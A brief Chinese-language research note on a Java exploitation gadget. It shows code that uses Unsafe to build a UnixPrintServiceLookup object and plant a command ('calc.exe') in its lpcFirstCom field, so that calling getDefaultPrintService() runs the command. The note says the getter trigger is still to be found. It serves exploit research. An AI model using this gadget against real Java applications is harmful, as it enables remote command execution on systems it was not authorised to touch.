 # UnixPrintServiceLookup

## 利用方法1

可通过能够触发getter方法`getDefaultPrintService()`

利用方式：

```
        Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Object unixPrintServiceLookup = unsafe.allocateInstance(UnixPrintServiceLookup.class);
        setFieldValue(unixPrintServiceLookup, "cmdIndex", 0);
        setFieldValue(unixPrintServiceLookup, "osname", "Pupi1");
        String cmd = "calc.exe";
        setFieldValue(unixPrintServiceLookup, "lpcFirstCom", new String[]{cmd, cmd, cmd});
```

需要想办法触发`Object unixPrintServiceLookup = unsafe.allocateInstance(UnixPrintServiceLookup.class);`的`getDefaultPrintService()`，也就是getter方法

